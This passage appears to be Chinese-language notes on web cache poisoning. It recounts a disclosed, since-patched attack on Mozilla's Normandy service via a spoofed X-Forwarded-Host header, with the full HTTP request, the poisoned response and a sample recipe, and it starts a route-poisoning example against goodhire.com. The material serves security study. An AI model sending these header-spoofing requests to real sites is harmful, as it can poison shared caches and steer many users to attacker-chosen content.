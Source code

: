 無論如何，`X-Forwarded-Host` header 欺騙了這個系統，將 Firefox 引導到我自己的網站以獲取 `recipes`：

```
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net

HTTP/1.1 200 OK
{
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
}
```

Recipes 格式看起來像這樣
```
[{
  "id": 403,
  "last_updated": "2017-12-15T02:05:13.006390Z",
  "name": "Looking Glass (take 2)",
  "action": "opt-out-study",
  "addonUrl": "https://normandy.amazonaws.com/ext/pug.mrrobotshield1.0.4-signed.xpi",
  "filter_expression": "normandy.country in  ['US', 'CA']\n && normandy.version >= '57.0'\n)",
  "description": "MY REALITY IS JUST DIFFERENT THAN YOURS",
}]
```

該系統使用 `NGINX` 進行 cache
- 這也順利 cache 住 Poisoning
- Firefox 會在瀏覽器打開後不久去 fetch 此 URL，並定期重新 fetch
- 最終意味著 Firefox 的所有數千萬日常用戶最終都可以從我的網站拿 recipes

這提供了相當多的可能性
- Firefox 使用的 recipes 經過[簽名](https://github.com/mozilla-services/autograph/tree/main/signer/contentsignature)
- 因此我不只能安裝惡意 extension 並能完整的代碼執行
- 可以將數千萬真正的用戶引導到我選擇的 URL
- 除了明顯的 DDoS 使用之外，如果結合適當的 memory corruption vulnerability，這將非常嚴重


作者向 Mozilla report
- Mozilla 24 小時內修補了，但對嚴重程度存在一些分歧，因此只獲得了 1,000 美元的獎金


### Route poisoning
有些 app 甚至用 header 來產生 URL 作為內部 request 的 routing  

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: canary

HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
…
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
